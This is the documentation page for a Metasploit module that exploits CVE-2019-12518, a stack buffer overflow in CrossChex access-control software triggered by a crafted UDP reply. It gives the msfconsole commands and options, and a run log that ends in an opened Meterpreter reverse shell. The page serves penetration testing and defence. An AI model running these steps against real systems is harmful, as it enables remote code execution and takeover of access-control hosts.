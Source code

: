 ## Introduction

CrossChex (a personnel identity verification, access control, and time attendance management system), uses UDP broadcasts to identify and connect with Access Control devices on a network. The code used to handle a response from an Access Control deviceis vulnerable to a Stack Buffer Overflow attack, tracked as CVE-2019-12518, and as such permits abritrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes to be executed as a result of the exploit are sent in a single UDP packet as a response to the CrossChex broadcast. As both the exploit and the payload must be contained inside a single UDP packet, an exploit has a maximum size of `8947 Characters`.    

This module exploits CVE-2019-12518 by listening for a CrossChex "new device" broadcast for a given number of seconds (`TIMEOUT`). It then responds with a UDP packet containing shellcode for both the Buffer Overflow exploit and the attacker's chosen payload. The `Space` payload option ensures no payload of too large a size is used to ensure successful explotation. If a broadcast is not detected within the given `TIMEOUT`, the module exits with a warning. 

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options
As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...



```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>